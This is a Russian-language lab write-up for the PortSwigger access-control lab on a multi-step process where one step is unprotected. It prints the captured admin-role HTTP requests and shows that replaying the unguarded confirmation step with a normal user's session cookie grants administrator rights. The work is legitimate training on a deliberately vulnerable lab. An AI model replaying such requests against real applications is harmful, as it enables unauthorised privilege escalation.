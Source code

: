 ```yaml
---
title: "Multi-step process with no access control on one step"
date: 2025-07-25
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-multi-step-process-with-no-access-control-on-one-step"
classes: wide
---
```


У нас есть данные для входа в учетную запись администратора `administrator`:`admin` и в нашу `wiener`:`peter`.

Для прохождения лабы нужно повысить права нашего аккаунта через **уязвимость контроля доступа в многоэтапных процессах**.

```
https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/
```

## Solution

Зайду в аккаунт админа. Далее в админ панель:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Multi-step_process_with_no_access_control_on_one_step/1.png){: height="200" .align-center}

Изменю права `carlos`, чтобы собрать примеры запросов. Первый запрос:

```http
POST /admin-roles HTTP/2
Host: 0a6000d7033438c98014e57b000500b5.web-security-academy.net
Cookie: session=a6TJSBlFMfA6NdDFXkyV823s7KHTwoFt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=carlos&action=upgrade
```

Второй запрос:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Multi-step_process_with_no_access_control_on_one_step/2.png){: height="200" .align-center}

```http
POST /admin-roles HTTP/2
Host: 0a6000d7033438c98014e57b000500b5.web-security-academy.net
Cookie: session=a6TJSBlFMfA6NdDFXkyV823s7KHTwoFt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/admin-roles
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

action=upgrade&confirmed=true&username=carlos
```

Закину запросы в `Repeater` и перейду в свой ЛК.

Подставлю новую печеньку, чтобы отправлять запросы не от лица админа. Попробую изменить первый запрос:

```http
POST /admin-roles HTTP/2
Host: 0a6000d7033438c98014e57b000500b5.web-security-academy.net
Cookie: session=u8YcNctzG7Cqa03jU2zCvyNTnJ8xSX6g
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=wiener&action=upgrade
```

~~Отказ~~Ответ:

```http
HTTP/2 401 Unauthorized
Content-Type: application/json; charset=utf-8
Set-Cookie: session=BEdfm5r7oSkeStSTiFVVGdcHNisfH0Pi; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"Unauthorized"
```

Попытаю удачу со вторым запросом:

```http
POST /admin-roles HTTP/2
Host: 0a6000d7033438c98014e57b000500b5.web-security-academy.net
Cookie: session=u8YcNctzG7Cqa03jU2zCvyNTnJ8xSX6g
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net/admin-roles
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://0a6000d7033438c98014e57b000500b5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

action=upgrade&confirmed=true&username=wiener
```

Ответ:

```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

Появилась вкладка панели администратора:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Multi-step_process_with_no_access_control_on_one_step/3.png){: height="200" .align-center}


Лаба решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Multi-step_process_with_no_access_control_on_one_step/4.png){: height="200" .align-center}
